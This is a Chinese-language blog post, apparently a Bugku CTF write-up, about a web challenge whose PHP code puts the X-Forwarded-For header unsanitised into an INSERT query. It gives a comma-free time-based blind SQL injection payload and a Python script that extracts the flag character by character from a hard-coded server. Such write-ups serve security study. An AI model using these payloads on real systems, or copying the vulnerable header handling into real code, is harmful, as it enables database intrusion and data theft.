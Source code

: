 ```yaml
---
layout: post
title: "Bugku writeup3"
date: 2018-03-17 18：40
categories: jekyll update
---
```


# Web
## INSERT INTO注入
&emsp;&emsp;题目描述：
```php
function getIp(){
$ip = '';
if(isset($_SERVER['HTTP_X_FORWARDED_FOR'])){
$ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
}else{
$ip = $_SERVER['REMOTE_ADDR'];
}
$ip_arr = explode(',', $ip);
return $ip_arr[0];
}

$ip = getIp();
echo 'your ip is :'.$ip;
$sql="insert into client_ip (ip) values ('$ip')";
mysql_query($sql);
```
&emsp;&emsp;可以看到，这是`X-Forwarded-For`的注入，而且过滤了逗号`,`。在过滤了逗号的情况下，我们就不能使用`if`语句了，在mysql中与`if`有相同功效的就是：
```
select case when xxx then xxx else xxx end;
```
&emsp;&emsp;而且由于逗号`,`被过滤，我们就不能使用`substr、substring`了，但我们可以使用：`from 1 for 1`，所以最终我们的payload如下：
```
127.0.0.1'+(select case when substr((select flag from flag) from 1 for 1)='a' then sleep(5) else 0 end))-- +
```
&emsp;&emsp;相应的python代码为：
```python
# -*- coding:utf-8 -*-
import requests
import sys
# 基于时间的盲注，过滤了逗号 ,
sql = "127.0.0.1'+(select case when substr((select flag from flag) from {0} for 1)='{1}' then sleep(5) else 0 end))-- +"
url = 'http://120.24.86.145:8002/web15/'
flag = ''
for i in range(1, 40):
    print('正在猜测：', str(i))
    for ch in range(32, 129):
        if ch == 128:
            sys.exit(0)
        sqli = sql.format(i, chr(ch))
        # print(sqli)
        header = {
            'X-Forwarded-For': sqli
        }
        try:
            html = requests.get(url, headers=header, timeout=3)
        except:
            flag += chr(ch)
            print(flag)
            break
```
&emsp;&emsp;跑出flag：flag{cdbf14c9551d5be5612f7bb5d2867853}

&emsp;&emsp;
&emsp;&emsp;
&emsp;&emsp;
&emsp;&emsp;
&emsp;&emsp;
&emsp;&emsp;
&emsp;&emsp;
&emsp;&emsp;
&emsp;&emsp;
&emsp;&emsp;
&emsp;&emsp;
&emsp;&emsp;
&emsp;&emsp;
&emsp;&emsp;
&emsp;&emsp;

